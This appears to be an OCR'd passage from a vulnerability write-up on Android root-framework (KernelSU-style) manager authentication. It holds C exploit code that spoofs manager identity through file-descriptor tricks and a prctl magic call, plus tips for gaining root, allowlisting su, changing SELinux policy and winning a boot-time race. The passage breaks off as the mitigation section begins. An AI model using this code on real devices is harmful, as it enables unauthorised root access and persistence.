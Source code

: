 ```c
        snprintf(link, sizeof(link), "/proc/self/fd/%d", fd);
        ssize_t n = readlink(link, p, sizeof(p)-1);
        if (n <= 0) continue; p[n] = '\0';
        if (strstr(p, "/data/app/") && strstr(p, "/base.apk")) {
            if (best_fd < 0 || fd < best_fd) {
                best_fd = fd; strncpy(out_path, p, PATH_MAX);
            }
        }
    }
    closedir(d);
    return best_fd; // First (lowest) matching fd
}
```
```
Force a lower-numbered FD to point at the legitimate manager APK:
```c
#include <fcntl.h>
#include <unistd.h>

void preopen_legit_manager_lowfd(const char *legit_apk_path) {
    // Reuse stdin (fd 0) if possible so the next open() returns 0
    close(0);
    int fd = open(legit_apk_path, O_RDONLY);
    (void)fd; // fd should now be 0 if available
}
```
```
Manager authentication via prctl hook:
```c
#include <sys/prctl.h>
#include <stdint.h>

#define KSU_MAGIC          0xDEADBEEF
#define CMD_BECOME_MANAGER 0x100  // Placeholder; command IDs are framework-specific

static inline long ksu_call(unsigned long cmd, unsigned long arg2,
                            unsigned long arg3, unsigned long arg4) {
    return prctl(KSU_MAGIC, cmd, arg2, arg3, arg4);
}

int become_manager(const char *my_data_dir) {
    long result = -1;
    // arg2: command, arg3: pointer to data path (userspace->kernel copy), arg4: optional result ptr
    result = ksu_call(CMD_BECOME_MANAGER, (unsigned long)my_data_dir, 0, 0);
    return (int)result;
}
```
```
After success, privileged commands (examples):
- CMD_GRANT_ROOT: promote current process to root
- CMD_ALLOW_SU: add your package/UID to allowlist for persistent su
- CMD_SET_SEPOLICY: adjust SELinux policy as supported by framework

Race/persistence tip:
- Register a BOOT_COMPLETED receiver in AndroidManifest (RECEIVE_BOOT_COMPLETED) to start early after reboot and attempt authentication before the real manager.

---
## Detection and mitigation guidance

For framework developers:
- Bind authentication to the caller’s package/UID, not to arbitrary FDs:
```